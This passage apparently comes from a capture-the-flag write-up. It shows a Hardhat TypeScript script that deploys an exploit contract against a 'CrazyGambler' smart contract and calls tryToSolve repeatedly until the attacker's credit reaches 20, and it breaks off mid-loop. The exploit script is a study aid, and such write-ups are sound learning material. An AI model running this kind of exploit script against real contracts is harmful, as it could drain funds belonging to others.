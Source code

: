 I used both `hardhat` and `foundry` for scripting the exploit. We need to call the function tryToSolve till we get to 20.
, but I will share the `hardhat` one because it's easier to understand as it's javascript code. ( well I write in Typescript. Can't live without type safety )

```js
import { ethers, getNamedAccounts } from "hardhat";
import { CrazyGambler, ExploitContract } from "../typechain-types";

let crazyGambler: CrazyGambler;
let exploitContract: ExploitContract;
let deployer: string;


const setUp = async () => {
    // Getting my private key
    deployer = (await getNamedAccounts()).deployer;

    // Getting the crazy gambler's address
    const crazyGamblerAddress = "0x55409Be51f453acCDbab41c439545FA317C0508b"

    // Uncomment to use for deploy a contract and start the exploit
    crazyGambler = await ethers.getContractAt("CrazyGambler", crazyGamblerAddress);
    // Deploying my exploit contract
    const exploitContractFactory = await ethers.getContractFactory("ExploitContract");
    const tx = await exploitContractFactory.deploy(crazyGamblerAddress)
    exploitContract = await tx.deployed();

    //  Comment that to reuse the contract, (might crash because a transaction fail or hit the rate limit on the Infura Node )
    // exploitContract = await ethers.getContractAt("ExploitContract", "0x2CAa717BaA85A0B5B39798bDB9121243D84Fe2E3");
    console.log('deployed exploit contract', exploitContract.address)

}


const solve = async () => {
    let solved = false;

    // Uncomment that when you are using the contract for the first time
    await (await exploitContract.initThing({ gasLimit: 300000 })).wait(1)

    // Keeping track of the balance
    let currentBalance = (await crazyGambler.gamblersCredit(exploitContract.address)).toNumber();

    console.log('current balance', currentBalance)

    while (!solved) {
        try {
            const res = await (await exploitContract.tryToSolve({ gasLimit: 300000 })).wait()
            console.log((res as any)?.events[0]?.args[0].toNumber())
        }
        catch (error: any) {
            console.log(error.message)

        }

        // Updating balance
        currentBalance = (await crazyGambler.gamblersCredit(deployer)).toNumber();
        console.log('current balance', currentBalance)
        // So the script don't overrun
        if (currentBalance >= 20) break;

```